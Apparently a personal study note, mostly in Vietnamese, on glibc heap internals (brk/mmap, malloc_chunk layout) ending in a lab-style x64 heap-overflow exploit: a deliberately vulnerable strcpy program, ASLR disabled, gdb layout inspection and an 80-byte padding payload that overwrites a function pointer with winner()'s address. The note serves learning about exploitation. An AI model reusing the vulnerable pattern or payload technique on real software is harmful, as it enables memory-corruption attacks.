

# Heap Overflow

Ghi đè chunk data liền kề, nếu chunk đó chứa function pointer -> control flow

## Theory

### Compare heap vs stack
- Stack:
    + Cấp phát tự động (local vars, tham số)
    + High -> low addr
    + LIFO, kích thước cố định tại compile time
- Heap:
    + Cấp phát thủ công (malloc, calloc, realloc)
    + Low -> high addr
    + Dynamic memory, có thể thay đổi trong lúc runtime
    + Phải free() thủ công, nếu không sẽ dẫn tới memory leak

```bash
Start Addr End Addr Size Offset Perms File 
…
0x0000000000405000 0x0000000000426000 0x21000 0x0 rw-p [heap] 
…
0x00007ffffffde000 0x00007ffffffff000 0x21000 0x0 rw-p [stack]
```

### Heap memory
- Store arrays, objects and dynamic structure
- Traditionally, use `brk()` để mở rộng bộ nhớ về phía địa chỉ cao. But modern, use `mmap()` to do it
- Thực tế glibc `malloc` dùng cả hai:
    + Chunk nhỏ (< 128 KB, `M_MMAP_THRESHOLD`) -> `brk()`, cấp trong vùng `[heap]`
    + Chunk lớn (>= 128 KB) hoặc arena của thread phụ -> `mmap()`, nằm ngoài `[heap]` (vùng `0x7...`)

#### Demo: `brk` vs `mmap`

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>     // sbrk()
#include <sys/mman.h>   // mmap(), munmap()

int main() {
    // ===== Case 1: brk =====
    void *brk0 = sbrk(0);          // (1) lấy vị trí program break hiện tại, không cấp phát
    sbrk(4096);                    // (2) brk trực tiếp: break +0x1000; vùng 4 KB này nằm ngoài quản lý của malloc
    void *a = malloc(100);         // (3) malloc lần đầu: khởi tạo arena, tự gọi brk +0x21000 (132 KB)
                                   //     đầu vùng là tcache (0x290 B), chunk A nằm ngay sau
    void *b = malloc(100);         // (4) cắt tiếp từ top chunk, không cần syscall
    void *c = malloc(100);         // (5) mỗi chunk 0x70 = 112 B (100 + 8 B header, làm tròn 16)

    // ===== Case 2: mmap =====
    void *m = mmap(NULL, 1 << 20, PROT_READ | PROT_WRITE,
                   MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);  // (6) mmap trực tiếp: 1 MB ở vùng 0x7...
    void *big = malloc(1 << 20);   // (7) >= 128 KB: malloc gọi mmap, break không đổi

    // (8) in địa chỉ để đối chiếu
    printf("brk0 = %p\nbrk  = %p\n", brk0, sbrk(0));
    printf("a    = %p\nb    = %p\nc    = %p\n", a, b, c);
    printf("m    = %p\nbig  = %p\n", m, big);

    // ===== Giải phóng =====
    free(b);                       // (9)  B vào tcache; nằm giữa A và C nên không trả về OS được (phân mảnh)
    free(big);                     // (10) chunk cấp bằng mmap -> munmap, trả về OS ngay
    munmap(m, 1 << 20);            // (11) trả OS ngay
    return 0;
}
```

```bash
> gcc heap_demo.c -o heap_demo
> ./heap_demo
brk0 = 0x60657af66000
brk  = 0x60657af88000      # brk0 + 0x1000 (sbrk) + 0x21000 (malloc) = +0x22000
a    = 0x60657af672a0      # brk0 + 0x1000 (sbrk) + 0x290 (tcache) + 0x10 (header)
b    = 0x60657af67310      # a + 0x70
c    = 0x60657af67380      # b + 0x70
m    = 0x73821a4ce000      # vùng mmap (0x7...), cách xa heap
big  = 0x73821a0ff010      # vùng mmap, thấp hơn m; +0x10 là header chunk

> strace -e trace=brk,mmap,munmap ./heap_demo 2>&1 >/dev/null | grep -v '^+++' | tail -7
brk(NULL)                               = 0x5c3073f4c000   # (1) sbrk(0) -> brk0
brk(0x5c3073f4d000)                     = 0x5c3073f4d000   # (2) sbrk(4096): +0x1000
brk(0x5c3073f6e000)                     = 0x5c3073f6e000   # (3) malloc đầu tiên: +0x21000 (132 KB)
mmap(NULL, 1048576, ...)                = 0x73c580100000   # (6) m = mmap(1 MB)
mmap(NULL, 1052672, ...)                = 0x73c57ffff000   # (7) malloc(1 MB) -> 0x101000, kết thúc đúng tại m
munmap(0x73c57ffff000, 1052672)         = 0                # (10) free(big) -> trả OS
munmap(0x73c580100000, 1048576)         = 0                # (11) munmap(m) -> trả OS
# (4)(5) malloc b, c và (9) free(b): không có syscall -> cấp/thu hồi ngay trong heap
# Địa chỉ khác lần chạy trên do ASLR -> so độ chênh lệch, không so giá trị
```

<!-- <p align="center">
    
</p> -->
<p align="center">
    <video src="../assets/heap_brk_mmap.mp4" width="800" controls></video>
</p>

**Nhận xét:**

- Chỉ có lần `malloc` đầu tiên gọi `brk`. Các lần sau được cắt ra từ top chunk mà không cần syscall.
- Chunk cấp bằng `mmap` (dù gọi trực tiếp hay qua `malloc`) không làm thay đổi program break.
- `free(b)` không trả bộ nhớ về OS vì B nằm giữa heap, còn `free(big)` thì trả ngay qua `munmap`. Đây chính là lý do chunk lớn được cấp bằng `mmap`.


### Some functions
- `malloc(size)`: cấp phát size bytes nhưng không xóa đi các data cũ (chứa junk data)
- `calloc(n, size)`: cấp phát n * size bytes, có xóa data cũ và thường đặt lại giá trị về 0
- `realloc(ptr, size)`: resize chunk đã cấp phát trước đó (allocated memory block)
- `free(ptr)`: giải phóng chunk, phải gọi thủ công

```C
// return pointer trỏ đến vị trí đầu của vùng nhớ được cấp phát trên heap cho user data
// void type -> know nothing about type of data stored on heap
void *malloc( size_t size );
/* size_t in x32 = 4 bytes, in х64 = 8 bytes. */

// Example:
/* Allocate 10 bytes; since a char is 1 byte, this variable can hold 10 characters. */
char *c = malloc(sizeof(char) * 10);
/* Allocate 40 bytes; since an int is 4 bytes, there is enough space for 10 integer variables. */
int *i = malloc(sizeof(int) * 10);
```

### Chunk structure (glibc malloc)

```C
// https://github.com/iromise/glibc/blob/master/malloc/malloc.c#L1017
struct malloc_chunk {
    /* CHUNK METADATA */
    INTERNAL_SIZE_T mchunk_prev_size; /* Size of previous chunk (if free). */
    INTERNAL_SIZE_T mchunk_size; /* Size current chunk in bytes, including overhead. */

    /* THE DATA BELOW IS ADDED ONLY AFTER THE free() OPERATION */
    struct malloc_chunk *fd; /* double links - used only if free. */
    struct malloc_chunk *bk;

    /* Only used for large blocks: pointer to next larger size. */
    struct malloc_chunk *fd_nextsize; /* double links - used only if free. */
    struct malloc_chunk *bk_nextsize;
};
```
+ `INTERNAL_SIZE_T`:
    + 32-bit -> uint32_t (4 bytes)
    + 64-bit -> uint64_t (8 bytes)
+ `mchunk_prev_size`:
    + Lưu size của chunk trước đó (chỉ khi chunk trước đã free)
    + Nếu chunk trước đã free -> prev_size lưu size chunk trước
    + Nếu chunk trước đang occupied -> prev_size không sử dụng
        + glibc tối ưu: chunk trước được dùng vùng này để chứa thêm user data
    + Chunk đầu trên heap -> prev_size = 0
+ `mchunk_size`:
    + Lưu size của current chunk
    + 3 bit thấp nhất là flag:
        + real_size = mchunk_size & ~0x7
        + flag = mchunk_size & 0x7
        + Bit 0 - prev_inuse (P)
            + 1 -> chunk trước đang được sử dụng
            + 0 -> chunk trước đã free
            + glibc default = 1 cho chunk đầu (không có chunk trước)
        + Bit 1 - is_mapped (M)
            + 1 -> chunk được cấp phát bằng mmap()
            + Xảy ra khi malloc size rất lớn (> 128KB)
        + Bit 2 - non_main_arena
            + 1 -> chunk thuộc thread arena khác (multi-threaded program)
            + 0 -> chunk thuộc main arena
+ `fd and bk`:
    + Chỉ tồn tại sau khi chunk được free()
    + Tạo doubly-linked list quản lý free chunks
    + Nằm ở vị trí user data cũ
+ Allocated chunk: metadata (16B) + user data
    + malloc(64) → chunk = 64 + 16 = 80 bytes → mchunk_size = 0x51
+ Free chunk: metadata + fd + bk + garbage data

```
Bình thường (chunk A free):
    ┌────────────────────────┐  High addr
    | chunk B: user data     |
    | chunk B: size          |
    | chunk B: prev_size     |  ← lưu size chunk A (cần thiết)
    ├────────────────────────┤
    | chunk A: user data     |  ← kết thúc ở đây
    └────────────────────────┘  Low addr

Tối ưu (chunk A occupied):
    ┌────────────────────────┐  High addr
    | chunk B: user data     |
    | chunk B: size          |
    | chunk B: prev_size     |  ← chunk A dùng vùng này chứa thêm data
    ├────────────────────────┤
    | chunk A: user data     |
    |          ↑ tràn lên    |
    └────────────────────────┘  Low addr

prev_size của B không cần (vì A occupied) → A được dùng thêm 8 bytes
```


## Exploit (x64)

+ Source code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gcc heap_overflow.c -o heap_overflow -no-pie -g -m64

struct data {
    char name[64];
};

struct fp {
    void (*fp)();
};

void winner() {
    printf("level passed\n");
}

void nowinner() {
    printf("level has not been passed\n");
}

int main(int argc, char **argv) {
    struct data *d;
    struct fp *f;

    d = malloc(sizeof(struct data));
    f = malloc(sizeof(struct fp));

    f->fp = nowinner;

    printf("data is at %p, fp is at %p\n", d, f);

    strcpy(d->name, argv[1]);

    f->fp();

    return 0;
}
```
```bash
> echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space
> gcc heap_overflow.c -o heap_overflow -no-pie -g -m64
# -no-pie: cố định địa chỉ -> dễ exploit hơn (dù ko có flag này vẫn được nhưng sẽ phức tạp)
# -g: thêm debug symbols -> gdb hiểu tên biến, hàm
```

- Target: ghi đè f->fp từ nowinner() thành winner()
- Vulnerability: strcpy(d->name, argv[1]) không check size
- Exploit:
    + Heap cấp phát liên tiếp -> chunk d ngay trước chunk f
        ```bash
        [d->name 64 bytes][metadata 16 bytes][f->fp 8 bytes]
        <── chunk d ──────><── chunk f ────────────────────>
        ```
    + Payload = 80 bytes padding + 8 bytes addr winner()

```bash
> gdb -q heap_overflow
gef➤  disas main
    ....
    0x00000000004011fd <+51>:    lea    rdx,[rip+0xffffffffffffffac]        # 0x4011b0 <nowinner>
    ....
gef➤  b *main + 51
gef➤  r AAAAAAAAA
gef➤  n    # nhảy qua f->fp = nowinner;

gef➤  p d
$1 = (struct data *) 0x4052a0
gef➤  p f
$2 = (struct fp *) 0x4052f0
gef➤  p *f
$3 = {
  fp = 0x4011b0 <nowinner>
}
gef➤  p winner
$4 = {void ()} 0x401196 <winner>
gef➤  x/20gx ((void*)d - 0x10)
0x405290:       0x0000000000000000      0x0000000000000051
0x4052a0:       0x0000000000000000      0x0000000000000000
0x4052b0:       0x0000000000000000      0x0000000000000000
0x4052c0:       0x0000000000000000      0x0000000000000000
0x4052d0:       0x0000000000000000      0x0000000000000000
0x4052e0:       0x0000000000000000      0x0000000000000021
0x4052f0:       0x00000000004011b0      0x0000000000000000
0x405300:       0x0000000000000000      0x0000000000020d01
0x405310:       0x0000000000000000      0x0000000000000000
0x405320:       0x0000000000000000      0x0000000000000000
```
- Padding = f_addr - d_addr = 0x4052f0 - 0x4052a0 = 80 bytes

```bash
gef➤  r $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*80 + b"\x96\x11\x40\x00\x00\x00\x00\x00")')
data is at 0x4052a0, fp is at 0x4052f0
level passed
[Inferior 1 (process 4133) exited normally]
```
```
            High addr
            ┌──────────────────────────────────────────────────────┐
0x405300    | prev_size = 0x0              | size = 0x20d01        |  TOP CHUNK (heap còn lại)
            ├─── CHUNK F (malloc(8)) ──────────────────────────────┤
0x4052f0    | f->fp = 0x4011b0 (nowinner)                          |  ← f trỏ đây     ← TARGET
0x4052e0    | prev_size = 0x0              | size = 0x21 (32B)     |  metadata
            ├─── CHUNK D (malloc(64)) ─────────────────────────────┤
0x4052a0    | d->name[0..63] = all zeros   (64 bytes)              |  ← d trỏ đây     ← OVERFLOW BẮT ĐẦU
0x405290    | prev_size = 0x0              | size = 0x51 (80B)     |  metadata
            └──────────────────────────────────────────────────────┘
            Low addr

Chunk D size: malloc(64) + 16 metadata = 80 = 0x50, mchunk_size = 0x51 (PREV_INUSE)
Chunk F size: malloc(8) + 16 metadata = 24 → align 32 = 0x20, mchunk_size = 0x21
Khoảng cách d → f: 0x4052f0 - 0x4052a0 = 80 bytes (64 data + 16 metadata)
```